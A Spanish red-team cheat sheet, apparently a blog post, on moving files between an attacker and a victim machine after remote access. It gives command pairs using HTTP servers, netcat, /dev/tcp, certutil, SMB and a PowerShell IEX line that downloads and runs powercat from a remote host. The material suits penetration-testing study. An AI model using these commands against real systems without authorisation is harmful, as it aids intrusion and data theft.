 ```yaml
---
title: "Transfer Files - Cheat Sheet"
tags: ["Cheat Sheet"]
categories: ["Read Team"] 
cover:
    image: "/TransferFiles/TransferFiles.jpg"
    # can also paste direct link from external site
    #ex. https://i.ibb.co/K0HVPBd/paper-mod-profilemode.png
    alt: "<alt text>"
    caption: "<text>"
    relative: false # To use relative path for cover image, used in hugo Page-bundles
---
```


# Tranferencia de Ficheros - Cheat Sheet

> ¡Bienvenidos a esta cheat sheet sobre los distintos métodos para la transferencia de archivos entre una máquina "atacante" y una máquina "víctima"! 
>
> Cuando se consigue acceso a una máquina de forma remota, la capacidad de transferir archivos de manera efectiva es esencial. Esta guía proporciona una visión general de diversos métodos utilizados .


## Linux
### HTTP Server
```bash
# Emisor
python -m SimpleHTTPServer 80

# Receptor
wget http://192.168.1.1/ArchivoTransferir
o
curl -o ArchivoTransferir http://192.168.1.130/ArchivoTransferir
```
### SCP (utilidad de SSH)
**Subir fichero:**
```bash
scp ArchivoTransferir user@192.168.1.1:/home/user/
```
**Descargar fichero:**
```bash
scp user@192.168.1.1:/home/user/ArchivoDescargar .
```
### Netcat
```bash
# Emisor
nc -lvp 4444 > ArchivoTransferir

# Receptor
nc 192.168.1.1 4444 -w 3 < ArchivoTransferir
```
### FTP
```bash
# Emisor
twistd -n ftp -r .

# Receptor
wget ftp://192.168.1.1:21/ArchivoTransferir
```
### Máquina objetivo no tiene nada instalado I
```bash
# Emisor
nc -nlvp 4444 < ArchivoTransferir

# Receptor
cat > ArchivoTransferir < /dev/tcp/192.168.1.1/4444
```

### Máquina objetivo no tiene nada instalado II
Pasar el fichero a base64
```bash
base64 -w 0 ArchivoTransferir
```
Copiar el contenido de ese output al portapapeles
```bash
base64 -w 0 ArchivoTransferir | xclip -sel clip
```
En la máquina donde queremos pasar el fichero, hacemos `echo` a la cadena del portapapeles, la decodificamos de base64 y la volcamos a un fichero.
```bash
echo "IyEvYmluL2Jhc2gKCiMgUmFuZ29zIGRlIHJlZCBhIGVzY2FuZWFyCmhvc3RzPSgiMTcyLjE4LjAiICIxNzIuMTkuMCIpCgpmb3IgaG9zdCBpbiAke2hvc3RzW0BdfTsgZG8KICAgIGVjaG8gLWUgIlxuWytdIEVudW1lcmF0aW5nICRob3N0LjAvMjRcbiIKICAgIGZvciBpIGluICQoc2VxIDEgMjU0KTsgZG8KICAgICAgICB0aW1lb3V0IDEgYmFzaCAtYyAicGluZyAtYyAxICRob3N0LiRpIiAmPiAvZGV2L251bGwgJiYgZWNobyAiWytdIEhvc3QgJGhvc3QuJGkgLSBBQ1RJVkUiICYKICAgIGRvbmU7IHdhaXQKZG9uZQ==" | base64 -d > ArchivoTransferir
```
## Windows
### HTTP Server
#### DownloadFile # Subir fichero
```bash
# Emisor:
python -m SimpleHTTPServer 80

# Receptor:
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.1:80/ArchivoTransferir','C:\Users\test\Desktop\ArchivoTransferir')"
```
#### iwr / wget # Subir fichero
```bash
# Emisor:
python -m SimpleHTTPServer 80

# Receptor:
iwr -uri http://192.168.1.1:80/ArchivoTransferir -Outfile ArchivoTransferir
o
wget http://192.168.1.1:80/ArchivoTransferir -Outfile ArchivoTransferir
```
#### Cetutil # Subir fichero
```bash
# Emisor:
python -m SimpleHTTPServer 80

# Receptor:
certutil.exe -urlcache -split -f http://192.168.1.1:80/ArchivoTransferir ArchivoTransferir
```
#### Powercat # Bajar fichero
```bash
# Receptor aloja powercat.ps
python -m SimpleHTTPServer 80

# Emisor descarga de Receptor powercat.ps1 y levanta un servidor HTTP con el fichero a tranferir:
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/powercat.ps1');powercat -l -p 4444 -i C:\Users\test\ArchivoTransferir"

# Receptor descarga del servidor HTTP levantado con Powercat el archivo a tranferir:
wget http://192.168.1.1:4444/ArchivoTransferir
```
### Netcat
```bash
# Emisor:
nc.exe -lvp 4444 > ArchivoTransferir
nc -lvp 4444 > ArchivoTransferir

# Receptor:
nc 192.168.1.1 4444 -w 3 < ArchivoTransferir
nc.exe 192.168.1.1 4444 -w 3 < ArchivoTransferir
```
### FTP
#### Subir archivos FTP
```bash
# Receptor:
twistd -n ftp -r .

# Emisor:
ftp
open 192.168.1.1 2121
anonymous
 
get ArchivoTransferir
bye
```
#### Bajar archivos FTP
```bash
# Receptor:
python -m pyftpdlib -w

# Emisor:
ftp
open 192.168.1.1 2121
anonymous
 
put ArchivoTransferir
bye
```
### SMB
#### Subir archivos SMB
```bash
# Emisor:
impacket-smbserver -smb2support test .

# Receptor:
copy \\192.168.1.1\test\ArchivoTransferir ArchivoTransferir
## Para copiar carpetas con su contenido de forma recursiva sin perder nada
robocopy \\192.168.1.1\test\ArchivoTransferir ArchivoTransferir /E /COPYALL
```
#### Bajar archivos SMB
```bash
# Emisor:
impacket-smbserver -smb2support test .

# Receptor:
copy ArchivoTransferir \\192.168.1.1\test\ArchivoTransferir 
## Para copiar carpetas con su contenido de forma recursiva sin perder nada
robocopy ArchivoTransferir \\192.168.1.1\test\ArchivoTransferir /E /COPYALL
```



* **


